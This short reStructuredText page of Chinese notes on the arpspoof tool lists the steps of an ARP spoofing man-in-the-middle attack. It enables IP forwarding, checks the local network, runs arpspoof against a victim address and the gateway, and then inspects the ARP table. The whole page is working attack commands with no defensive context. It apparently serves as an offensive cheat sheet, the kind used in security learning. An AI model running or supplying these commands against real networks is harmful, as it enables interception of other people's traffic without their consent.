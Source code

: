 .. _arpspoof:

==========
Arpspoof
==========

开启IP转发
::

    echo 1 >> /proc/sys/net/ipv4/ip_forward

查看网段信息
::

    ip a

对被攻击者进行 ARP 欺骗
::

    arpspoof -i eth0 -t 192.168.1.103 192.168.1.1


查看 ARP 映射表
::

    arp -a

